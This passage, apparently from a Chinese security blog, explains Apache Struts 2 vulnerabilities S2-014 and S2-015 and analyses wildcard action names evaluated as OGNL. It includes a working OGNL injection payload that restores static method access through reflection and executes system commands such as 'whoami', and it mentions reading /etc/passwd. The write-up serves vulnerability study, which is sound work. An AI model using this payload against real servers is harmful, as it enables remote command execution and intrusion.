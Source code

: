 官方的修复方式是限制 `%{(#exp)}` 格式的 OGNL 执行，但还存在 `%{exp}` 格式可用，导致
补丁被绕过（S2-014)


## S2-015 {#s2-015}


### 影响范围 {#影响范围}

Struts 2.0.0 - Struts 2.3.14.2


### 漏洞描述 {#漏洞描述}

S2-015 包含两种情况产生的漏洞


#### 通配符 {#通配符}

首先是 Struts2 在匹配 Action 的时候可以使用通配符，当找不到所请求的 Action 名称时，
就会访问使用通配符的 Action

示例：

```xml
<action name="*" class="example.ExampleSupport">
    <result>/example/{1}.jsp</result>
</action>
```

`{1}` 是访问的 Action 名称，而且会作为 OGNL 表达式执行。假设用户访问 null.action,
就会匹配到上述配置，然后返回 /example/null.jsp 页面

另外，在 Struts 2.3.14.1 - Struts 2.3.14.2 的更新内容中，删除了
SecurityMemberAccess 类中的 setAllowStaticMethodAccess 方法，因此在 2.3.14.2 版
本以后都不能直接通过 `#_memberAccess['allowStaticMethodAccess']=true` 来修改其值达
到重获静态方法调用的能力，但是仍可以通过反射去修改

最终得到以下 payload:

```nil
${#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true),#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('whoami').getInputStream()),#q}
```

{{< figure src="/ox-hugo/2021-11-18_22-16-45_screenshot.png" >}}

注意，由于 payload 的位置，命令中带有斜杠可能执行失败(cat /etc/passwd)


#### 表达式二次执行 {#表达式二次执行}

vulhub 的示例代码如下：

```xml
<action name="param" class="com.demo.action.ParamAction">
    <result name="success" type="httpheader">
        <param name="error">305</param>
        <param name="headers.fxxk">${message}</param>
    </result>
</action>
```
